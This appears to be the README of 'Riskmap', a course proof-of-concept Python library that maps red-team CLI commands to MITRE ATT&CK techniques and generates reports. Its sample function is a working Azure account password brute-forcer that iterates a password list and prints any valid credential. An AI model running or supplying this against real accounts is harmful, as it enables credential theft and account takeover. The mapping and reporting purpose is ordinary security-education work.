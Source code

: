 # Riskmap

Python utility for red teaming and penetration testing CLI tools to map commands and modules to the MITRE ATT&CK framework. A sample CLI program has been provided in [riskcli.py](./samples/riskcli/riskcli.py)

## Basic Concept

This library provides a `AttckMapper` class with a `mapping` decorator that can be used on functions that perform an offensive technique.

Unless you plan to run the sample tools, install the wheel in the `dist` folder. Otherwise, you can install for development with `poetry install` or `poetry install --no-dev` depending on your requirements.

### _Example function:_

```python
@app.command()
@atmap.mapping(enterprise=["T1110.001", "M1032"])
def azbrute(
    username: str = typer.Option(..., "-u", help="Username to bruteforce"),
    passList: Path = typer.Option(..., "-p", help="Path to password list"),
):
    """Bruteforces password for an Azure account"""
    validCred = {"user": username, "pass": None}
    with open(passList, "r", encoding="latin-1") as passes:
        for pwd in passes.read().splitlines():
            login = UsernamePasswordCredential(
                "1950a258-227b-4e31-a9cf-717495945fc2", username, pwd
            )
            try:
                token = login.get_token("https://graph.microsoft.com/.default")
                validCred["pass"] = pwd
            except ClientAuthenticationError as e:
                pass

    if not validCred["pass"]:
        raise CommandUnsuccessfulError(f"Brute force for {username} unsuccessful")
    typer.echo(f"\nCredential found! - {validCred}\n")
```

The decorator function will perform as normal and actions will be logged. When a report is generated, the IDs are looked up to provide a comprehensive description of what events took place, the techniques involved, and any additional references found in the MITRE matrices (CWE, CAPEC, etc).

If the `azbrute` command in the example function is successful, the following line will be logged:\

`{"command": "azbrute", "startTime": "11/24/2020 08:14:26", "endTime": "11/24/2020 08:14:27", "args": [], "kwargs": {"username": "<username>", "passList": "passlist.txt"}, "details": {}, "mapping": {"enterprise": ["T1110.001", "M1032"], "mobile": [], "ics": []}} `

### _Report Generation Example:_

```python
@app.command()
def genreport(path: Path = typer.Argument(..., help="Path to riskmap log")):
    rrg = RiskmapReportGenerator(path)
    rrg.to_excel("output-report.xlsx")
```

|     | command | startTime           | endTime             | args | kwargs                                       | details | mapping                                                     | extended_lookup                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| --- | ------- | ------------------- | ------------------- | ---- | -------------------------------------------- | ------- | ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1   | azbrute | 11/24/2020 08:14:26 | 11/24/2020 08:14:27 |      | username: username<br>passList: passlist.txt |         | enterprise: ['T1110.001', 'M1032']<br>mobile: []<br>ics: [] | T1110.001: https://attack.mitre.org/wiki/Technique/T1110/001<br>CAPEC-49: https://capec.mitre.org/data/definitions/49.html<br>CWE-521: http://cwe.mitre.org/data/definitions/521.html<br>CWE-262: http://cwe.mitre.org/data/definitions/262.html<br>CWE-263: http://cwe.mitre.org/data/definitions/263.html<br>CWE-257: http://cwe.mitre.org/data/definitions/257.html<br>CWE-654: http://cwe.mitre.org/data/definitions/654.html<br>CWE-307: http://cwe.mitre.org/data/definitions/307.html<br>CWE-308: http://cwe.mitre.org/data/definitions/308.html<br>CWE-309: http://cwe.mitre.org/data/definitions/309.html<br>M1032: https://attack.mitre.org/mitigations/M1032 |

This library has been tested with the [Typer](https://typer.tiangolo.com/) and therefore should also work with the [Click](https://github.com/pallets/click) library as well. By all accounts, the decorator should work with any normal synchronous function. This library was developed with [Poetry](https://python-poetry.org/). In order to run the `riskcli.py`, you must also install the development libraries with `poetry install`.

### Note

**_This library was written for Dakota State University's Managing Security Risk course and may not be maintained in the future. This is a proof-of-concept._**
